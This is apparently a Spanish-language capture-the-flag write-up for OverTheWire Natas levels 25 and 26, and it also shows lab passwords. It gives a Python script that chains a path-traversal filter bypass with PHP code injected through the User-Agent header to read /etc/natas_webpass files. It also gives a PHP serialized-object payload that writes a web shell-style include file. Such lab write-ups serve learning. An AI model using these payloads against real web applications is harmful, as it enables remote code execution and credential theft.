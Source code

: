 strcmp devuelve 0 al comparar una matriz con una cadena y da como resultado una excepción
GHF6X7YwACaYYssHVY05cFq83hRktl4c

# Natas25

~~~
import httplib,sys
from base64 import b64encode
from urllib import urlencode

sessid=’whateversessid’
langstr=’….//….//….//….//….//var/www/natas/natas25/logs/natas25_whateversessid.log’
httpClient = None
try:
userAndPass = b64encode(b”natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c”).decode(“ascii”)
cookie = ‘PHPSESSID=’+str(sessid)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Content-Type’: ‘application/x-www-form-urlencoded’ , ‘Cookie’ : cookie , ‘User-Agent’ : ‘<? passthru(“cat /etc/natas_webpass/natas26”) ?>’}
httpClient = httplib.HTTPConnection(‘natas25.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘GET’, ‘/index.php?lang=’+langstr, headers=headers)
response = httpClient.getresponse()
responseData = response.read()
print responseData
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()
~~~

“….//” se convierte en “../” después del primer filtro
Utilice el agente de usuario para ejecutar el código

oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

# Natas26
Inyección de objetos PHP
Crea un PHP y ejecuta:

~~~
<?php
class Logger{
private $logFile;
private $initMsg;
private $exitMsg;
function __construct(){
// initialise variables
$this->initMsg=”#–session started–#\n”;
$this->exitMsg=”<?php include_once(‘/etc/natas_webpass/natas27’);?>”;
$this->logFile = “img/output.php”;
}
}
$output[]=new Logger();
echo base64_encode(serialize($output));
?>
~~~
